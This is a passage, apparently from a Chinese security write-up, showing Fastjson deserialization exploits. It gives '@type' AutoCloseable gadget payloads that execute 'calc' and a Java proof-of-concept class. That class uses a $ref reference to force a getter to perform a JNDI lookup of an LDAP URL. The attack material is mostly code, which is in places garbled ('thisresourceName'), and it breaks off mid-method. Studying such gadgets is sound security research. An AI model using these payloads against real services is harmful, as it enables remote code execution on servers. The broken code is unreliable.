

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecRunnable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalRunnable","cmd":"calc"}
}
```

Readable同理。

拓展使用$ref拓展攻击面，使用parse()解析的也能触发任意getter。这个payload来自 [@threedr3am](https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6)

```java
package org.chabug.fastjson.exploit;

import com.alibaba.fastjson.JSON;
import org.apache.shiro.jndi.JndiLocator;
import org.apache.shiro.util.Factory;

import javax.naming.NamingException;

public class RefAnyGetterInvoke<T> extends JndiLocator implements Factory<T>, AutoCloseable {
    private String resourceName;

    public RefAnyGetterInvoke() {
    }

    public static void main(String[] args) {
        String json = "{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.chabug.fastjson.exploit.RefAnyGetterInvoke\",\n" +
                "  \"resourceName\": \"ldap://localhost:1389/Calc\",\n" +
                "  \"instance\": {\n" +
                "    \"$ref\": \"$.instance\"\n" +
                "  }\n" +
                "}";
        System.out.println(json);
        JSON.parse(json);   // 默认不会调用getter 使用$ref就可以调用到getInstance()
//        JSON.parseObject(json); // parseObject默认就会调用getter getInstance()
    }

    public T getInstance() {
        System.out.println(getClass().getName() + ".getInstance() invoke.");
        try {
            return (T) this.lookup(thisresourceName);
        } catch (NamingException var3) {
            throw new IllegalStateException("Unable to look up with jndi name '" + thisresourceName + "'.", var3);
        }
    }

    public String getResourceName() {
        System.out.println(getClass().getName() + ".getResourceName() invoke.");
        return thisresourceName;
    }

    public void setResourceName(String resourceName) {
        System.out.println(getClass().getName() + ".setResourceName() invoke.");
        thisresourceName = resourceName;
    }

    @Override
    public void close() throws Exception {
```